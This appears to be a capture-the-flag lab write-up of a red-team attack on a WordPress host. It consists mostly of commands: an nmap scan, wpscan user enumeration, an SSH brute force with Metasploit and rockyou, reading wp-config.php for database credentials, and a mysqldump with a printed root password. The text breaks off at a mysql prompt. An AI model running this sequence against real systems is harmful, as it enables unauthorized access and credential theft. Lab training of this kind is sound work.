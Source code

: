 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Exploitation

### Exposed Services
Nmap scan results for each machine reveal the below services and OS details:

```
$ nmap -sV 192.168.1.0/24
```
![nmap scan](images/nmap_scan.png)

This scan identifies the services below as potential points of entry:
- Target 1

  |        Service       |   Port  |
  |:--------------------:|:-------:|
  |     OpenSSH 6.7p1    |    22   |
  |  Apache httpd 2.4.10 |    80   |
  | Samba smbd 3.X - 4.X | 139,445 |

The following vulnerabilities were identified on each target:
- Target 1
  - User enumeration via WordPress site
  - Weak user password
  - Unsalted user password hashes in WordPress database
  - Misconfiguration of user privileges leading to privilege escalation

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

`flag1`: b9bbcb33ellb80be759c4e844862482d

#### Exploits Used 
  - WPscan to enumerate users on Target 1
  - Brute force attacking a weak password
      
#### Method

First we enumerated the user accounts by exploiting the vulnerable WordPress site using wpscan.
```
$ wpscan --url http://192.168.1.110/wordpress -e u
```
```
$ msfconsole
```
```
> search ssh_login
```
```
> use 0
```
```
> set rhost 192.168.1.110
```
```
> set username michael
```
```
> set pass_file /usr/share/wordlists/rockyou.txt
```
```
> set stop_on_success true
```
```
> run
```
```
> exit -y
```
```
$ ssh michael@192.168.1.110
```
```
$ grep -rnw / -e “flag1” 2> /dev/null
```

`flag2`: fc3fd58dcdad9ab23faca6e9a3e581c

#### Exploit Used
  - Same exploit used to obtain flag 1

#### Method
```
$ find / -iname “flag2*” 2> /dev/null
```
`cat /var/www/flag2.txt`


  - `flag3`: afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - Same exploit used to obtain flag 1
   - Commands:
`$ cat /var/www/html/wordpress/wp-config.php`

`$ mysqldump wordpress -u root -pR@v3nSecurity > dump`
`$ grep “flag3” dump`


Note: flag4 is located here as well

  - `flag4`: 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - Same exploit used to obtain flag 1
   - Commands:
`$ mysql wordpress --user=root -pR@v3nSecurity`
`>  `



